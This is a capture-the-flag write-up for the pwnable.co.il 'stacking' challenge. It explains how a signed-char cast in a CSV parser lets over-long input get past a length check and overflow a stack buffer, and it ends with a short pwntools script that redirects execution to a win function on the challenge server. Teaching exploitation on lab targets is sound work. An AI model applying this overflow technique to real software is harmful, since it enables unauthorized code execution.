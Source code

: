 ```yaml
---
title: "pwnable.co.il - stacking"
classes: wide
header:
  teaser: /assets/images/ctf-writeups/pwnable.co.il/logo.png
ribbon: green
description: "This challenge provides a data management service that parses your data using the CSV format."
categories:
  - CTF Writeups
  - pwn
---
```


> Challenge description:
>
> CSV is the best way to store data. Wanna prove me wrong?

- Note: A CSV (Comma-Separated Values) is a format of values that are typically stored in plain text, where each value is separated by a comma. Each line in a CSV file usually represents a row, and the values in each row represent fields or columns. This format is widely used for data exchange, such as exporting data from spreadsheets, databases, or for simple data storage, due to its simplicity and readability. [more info](https://en.wikipedia.org/wiki/Comma-separated_values#:~:text=Comma%2Dseparated%20values%20(CSV),typically%20represents%20one%20data%20record.)

Since the challenge is called "stacking," I assumed it would be stack-based.
To investigate further, I opened the provided ELF file in my `gef` debugger.

Here, you can see all the static function symbols provided by the ELF file:

[![static symbols](/assets/images/ctf-writeups/pwnable.co.il/stacking/symbols.png)](/assets/images/ctf-writeups/pwnable.co.il/stacking/symbols.png)

Among the functions there’s an interesting one called `win` which might be our target in this challenge,
but now let’s dig into the `main` function. 
To make it easier, I’ll use IDA decompiler to convert the code into C:

```c
int __fastcall main(int argc, const char **argv, const char **envp) {
  void *csv_str; // rsi

  init_buffering(argc, argv, envp);
  puts("Welcome to my data parser!");
  puts("Please enter your comma-separated data: ");
  csv_str = malloc(0x100uLL); // allocate 256 bytes for `csv_str`
  read(0, csv_str, 0x100uLL);
  parse_data(csv_str); // interesting function
  
  return 0;
}
```

Everything here looks fine, and there’s no obvious vulnerability in this code.
However, we can see another interesting function that uses in that code called `parse_data`. 
So let’s dig into it to search for vulnerabilities! 
Again, I’ll use IDA decompiler to convert the code into C:

```c
size_t __fastcall parse_data(const char *csv_str) {
  size_t tmp_ctr; // rbx
  size_t result; // rax
  char buffer[23]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int8 i; // [rsp+27h] [rbp-19h]
  int start_of_data; // [rsp+28h] [rbp-18h]
  int ctr; // [rsp+2Ch] [rbp-14h]

  ctr = -1; // counter of the csv string current char
  start_of_data = 0;
  do
  {
    memset(buffer, 0, 16);
    for ( i = 0; csv_str[++ctr] != ','; ++i ) // read data from the csv string until the next comma
    {
      if ( !csv_str[ctr] )
      {
        --i; // comma dont count as part of the data
        break;
      }
    }
    if ( (char)i > 16 ) // max data length is 16 (Note: Why it uses (char) casting?)
    {
      puts("Too big data");
      exit(1); 
    }
    memcpy(buffer, &csv_str[start_of_data], i); //copy data from `csv_str` into `buffer` in `i` length size
    start_of_data += i + 1; // add current data size plus one char (the comma) to set the start of next data string
    printf("Length: %d\n", i);
    printf("Data :%s\n", buffer);
    tmp_ctr = ctr;
    result = strlen(csv_str); 
  } while ( tmp_ctr < result ); // run until all the csv string is parsed
  
  return result;
}
```

This function processes a CSV string, It extracts and processes each value between commas. For each value, it checks if its length exceeds 16 characters and if it does it prints an error message and exits. 
Then it stores each value in a buffer `s`, prints the length of the value and also prints the value itself. 
The function continues parsing until all values in the CSV string are processed. 
Finally, it returns the total length of the input string.

## The vuln - Casting `unsigned __int8` to `char`
```c
if ( (char)i > 16 ) {
  puts("Too big data");
  exit(1); 
}
```
Here, `i` is declared as `unsigned __int8` meaning it can hold values from `0` to `255`. 
However, casting it to char changes its interpretation to signed, where it can hold values from `-128` to `127`. 
As a result, when `i` is greater than `127`, the cast causes it to wrap around into negative values. 
This bypasses the if `if((char)i > 16){...}` check because a negative value will always fail this condition, 
even though the actual value of `i` (in its original `unsigned __int8` form) may still exceed `16`.

This vulnerability allows us to provide CSV data with values longer than 16 characters, effectively overwriting the return address of the `parse_data` function stored on the stack. 
Using this, we can redirect the program to the win function.

## Exploit
To exploit this vuln we create a payload that:
1. Bypasses the length check using the signed/unsigned casting vuln.
2. Overflows the `buffer` to overwrite the ret address of the `parse_data` function.
3. Redirects the execution to the `win` function.
* Note: in some cases the stack may be misaligned, causing issues when returning to a function like win.
  This happens because the stack pointer is not aligned to a 16-byte boundary, which is required by the x86-64 System V ABI.
  To fix this, we use a `ret-gadget` first, which will realign the stack to the correct boundary.
  
```py
from pwn import *

# Connect to remote server
conn = remote('pwnable.co.il', 9009)

# Functions symbols & Gadgets 
ret = p64(0x0000000000401479)
win = p64(0x00000000004012e5)

# Create paylod
padding = b'\x00' * 56
paylod = padding + ret + win

# Sending paylod to remote server
conn.sendline(paylod)
conn.interactive()
```
